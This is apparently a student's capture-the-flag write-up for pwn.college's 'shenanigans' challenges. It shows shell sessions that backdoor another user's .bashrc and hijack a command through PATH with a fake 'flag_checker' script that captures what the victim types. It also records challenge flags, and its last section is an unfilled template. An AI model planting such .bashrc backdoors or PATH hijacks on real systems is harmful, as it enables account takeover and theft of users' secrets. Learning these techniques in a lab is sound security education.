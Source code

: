 # BASHRC BACKDOOR
To use victim's `bashrc` and our write access to it to get the flag.

## My solve
**Flag:** `pwn.college{Yhas_cc8cRXBNonUT8-WRgszuR1.0VMzEzNxwiM4kjNzEzW}`

* Using nano editor to edit `/home/zardus/bashrc` and ran `/challenge/victim` to get the flag.

```
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{Yhas_cc8cRXBNonUT8-WRgszuR1.0VMzEzNxwiM4kjNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```


# SNIFFING INPUT
Thus challenge is to use victims's `bashrc` to get the flag .This time we have to hijack a command flag_checker to get the flag.

## My solve
**Flag:** `pwn.college{sIppirRQ8R1A3Y4BxtMYLuje7tr.0VNzEzNxwiM4kjNzEzW}`

* I used `nano` text editor to edit `/home/zardus/.bashrc`

```bash
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
PATH=/home/hacker:$PATH
```
* I created `flag_checker` program to replace the existing command in `/home/hacker`
```
hacker@shenanigans~sniffing-input:~$ touch flag_checker && nano flag_checker
#!/bin/bash
echo "Type the flag , victim: "
read flag
echo "Correct!"
echo $flag
hacker@shenanigans~sniffing-input:~$ chmod +x flag_checker
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag , victim:
*************************************************************Correct!
pwn.college{sIppirRQ8R1A3Y4BxtMYLuje7tr.0VNzEzNxwiM4kjNzEzW} 
```
* I ran `/challenge/victim` and got the flag

# OVERSHARED DIRECTORIES
We just have access to directory /home/zardus rather than file /home/zardus/.bashrc

## My solve
**Flag:** `pwn.college{k-F2dOgFAsf3uaOnV5L23jDQZOb.0FM0EzNxwiM4kjNzEzW}`

* similar to the previous challenge , we use nano editor to edit `/home/zardus/.bashrc` .
* we use `rm` to remove `/home/zardus/.bashrc` as we do not have access to the file.
* Instead we create a new file and edit it using nano i.e add `PATH=/home/hacker:$PATH`.
* Next we add executable access and run `/challenge/victim` to get the flag.

```bash
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
rm: remove write-protected regular file '/home/zardus/.bashrc'? y
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ touch flag_checker && nano flag_checker
hacker@shenanigans~overshared-directories:~$ chmod +x flag_checker
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag , victim:
*************************************************************Correct!
pwn.college{k-F2dOgFAsf3uaOnV5L23jDQZOb.0FM0EzNxwiM4kjNzEzW}
```


# TRICKY LINKING
We have access to directory `/tmp/collab` and we have to use zardus pushing the command `cat /flag` to `

## My solve
**Flag:** `pwn.college{helloworld}`

Explain how you arrived at the solution and your thought process behind solving the challenge. Include as much as info as possible. Use triple ticks for bash.

```bash
example triple ticks for bash
pwn.college{helloworld}
```

## What I learned
Explain what new topics you learned/information you gained through this challenge.

## References 
Add an references or videos you used while solving the challenge.

